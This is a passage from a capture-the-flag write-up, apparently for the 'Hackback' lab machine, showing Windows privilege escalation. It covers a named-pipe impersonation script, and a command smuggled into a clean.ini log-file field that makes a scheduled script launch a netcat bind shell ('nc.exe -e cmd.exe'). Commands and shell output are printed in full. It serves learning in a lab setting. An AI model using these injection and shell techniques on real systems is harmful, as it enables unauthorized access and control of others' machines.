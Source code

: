     PS hackback\simple@HACKBACK scripts> . \windows\system32\spool\drivers\color\df.ps1
    Waiting for connection on namedpipe:dummypipe
    

After a few minutes, I get a connection:

    
    
    ImpersonateNamedPipeClient: 1                                                      
    user=HACKBACK\hacker                                       
    OpenThreadToken:True                                                     
    True                                                      
    CreateProcessWithToken: False  1058  
    PS hackback\simple@HACKBACK scripts>
    

I can now connect to the waiting shell:

    
    
    root@kali# rlwrap proxychains nc 127.0.0.1 4444
    ProxyChains-3.1 (http://proxychains.sf.net)
    Microsoft Windows [Version 10.0.17763.292]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    hackback\hacker
    

### Command Injection in clean.ini - Alternative Path

Thinking back to the scripts that are running, I can hypothesize that `dellog.ps1` is setting some variable (I’ll say `$out`) to the log value in `clean.ini`, and then running something like `[command to get content for log] | $out`. If that is the case, I may be able to inject by adding `& [command]` to the definition.

I’ll inject in `clean.ini` to open a `nc` listener on the host:

    
    
    PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini
    
    PS hackback\simple@HACKBACK scripts> type clean.ini
    [Main]
    LifeTime=100
    LogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444
    Directory=c:\inetpub\logs\logfiles
    

After 5 minutes:

    
    
    root@kali# proxychains nc 127.0.0.1 4444
    ProxyChains-3.1 (http://proxychains.sf.net)
    Microsoft Windows [Version 10.0.17763.292]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    hackback\hacker
    